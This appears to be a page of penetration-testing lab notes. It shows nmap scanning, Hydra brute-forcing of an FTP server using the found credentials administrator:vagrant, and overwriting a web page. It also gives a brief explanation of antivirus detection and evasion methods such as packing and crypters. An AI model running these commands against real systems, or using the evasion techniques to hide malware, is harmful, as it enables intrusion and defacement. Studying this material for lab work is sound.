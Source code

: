 _Note : you are permitted to use the MSF._

#### Post scanning

```bash
kali@kali> nmap -sV 10.3.23.161
kali@kali> nmap 10.3.23.161 -T4 -PA -sV -sV -p 1-10000 -oX nmap_10k
kali@kali> service postgresql start && msfconsole
msf6> db_import nmap_10k
```

#### Microsoft IIS FTP

```bash
kali@kali> hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.3.18.2 ftp
kali@kali> hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.3.18.2 ftp
kali@kali> ftp 10.3.18.2  # administrator:vagrant

ftp> get index.html
ftp> echo 'Hello world!' >> index.html
ftp> put index.html
```

The credentials are `administrator:vagrant` `vagrant:vagrant`.

### Linux black box

...

### AV evasion and obfuscation

Defense evasion consists of techniques that adversaries use to avoid detection throughout their compromise. Techniques used for defense evasion include uninstalling/disabling security software or obuscating/encrypting data and scripts. Adversaries also leverage and abuse trusted processes to hide and masquerade their malware.

#### AV detection methods

AV software will typically utilize signature, heuristic and behaviour based detection.

* **Signature based detection** : an AV signature is a unique sequence of bytes that uniquely identifies malware. As a result, you will have to ensure that your obfuscated exploit or payload doesn't match any known signature in the AV database. We can bypass signature-based detection by modifying the malware's byte sequence, therefore changing the signature.
* **Heuristic-based detection** : relies on rules or decisions to determine whether a binary is malicious. It also looks for specific patterns within the code or program calls.
* **Behavior based detection** : relies on identifying malware by monitoring it's behavior (user for newer strains of malware).

#### AV evasion techniques

**On-disk evasion techniques**

* Obfuscation : it refers to the process of concealing something important, valuable, or critical. Obfuscation reorganizes code in order to make it harder to analyze or RE.
* Encoding : encoding data is a process involving changing data into a new format using a scheme. Encoding is a reversible process; data can be encoded to a new format decoded to its original format.
* Packing : generate executable with the new binary structure with a smaller size and therefore provides the payload with a new signature.
* Crypters : encrypts code or payloads and decrypts the ecnrypted code in memory. The decryption key/function is usually stored in a stub.

